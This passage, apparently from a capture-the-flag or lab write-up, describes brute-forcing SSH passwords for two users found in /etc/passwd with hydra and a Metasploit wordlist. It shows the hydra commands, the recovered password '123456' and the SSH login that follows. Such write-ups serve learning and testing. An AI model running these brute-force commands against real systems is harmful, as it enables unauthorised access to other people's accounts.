 # Other access methods

To learn more about how the system works, and possibly other vectors of exploits, I decided to further explore the web application.

### Brute forcing SSH password

As we have seen previously, there are 2 users that stands out in the `/etc/passwd` file: _joshua_ and _charles_. I attempted a password brute force attack on their SSH login with the wordlist from Metasploit `/usr/share/wordlists/metasploit/unix_passwords.txt` :

{% code overflow="wrap" %}
```sh
$ hydra -l joshua -P <wordlist> -t 6 ssh://<host>
$ hydra -l charles -P <wordlist> -t 6 ssh://<host>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

I found the password _**123456**_ for both usernames `joshua` and `charles`. We can now SSH with the usernames and gain a remote shell:

```sh
$ ssh <user>@<host>
```


